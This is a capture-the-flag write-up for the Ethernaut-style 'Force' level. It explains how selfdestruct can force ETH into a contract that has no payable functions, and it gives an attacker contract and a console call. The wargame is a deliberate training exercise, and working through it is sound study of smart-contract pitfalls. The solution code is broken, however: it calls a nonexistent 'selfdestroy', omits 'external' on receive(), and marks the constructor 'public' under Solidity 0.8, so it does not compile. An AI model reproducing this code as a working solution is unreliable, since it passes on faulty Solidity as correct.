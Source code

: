 # **Level 7 -- Force**
## **Contract to hack**
``` ts
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}

```

---
## ***Objectives***
* Make the balance of the contract greater than zero.
---
## ***Thought Process***
If you want a contract to be able to receive ETH, you need to add a `receive()` or `fallback()` function to the contract with a `payable` keyword. However since there are no functions in this contract, we can not send ETH to the contract directly.

Nevertheless, there is a special way to send ETH to any contract which is called `selfdestruct`. This function allows us to destroy a contract and send the balance of the contract to an address or another contract. Therefore, we need to create a contract with `selfdestruct` function and make sure the contract's balance is greater than zero. After that we call the `selfdestruct` function and send the ETH to the `Force` contract.

---
## ***Solution***
``` ts
pragma solidity ^0.8.0;

contract ForceAttack {
    address levelInstance;
    
    constructor() public {}

    receive() payable{}

    function destroy(address to) external payable{
        selfdestroy(to);
    }

}
```
1. send ETH to the contract

2. call `destroy` function
``` ts
> await contract.destroy(ForceAddress);
```



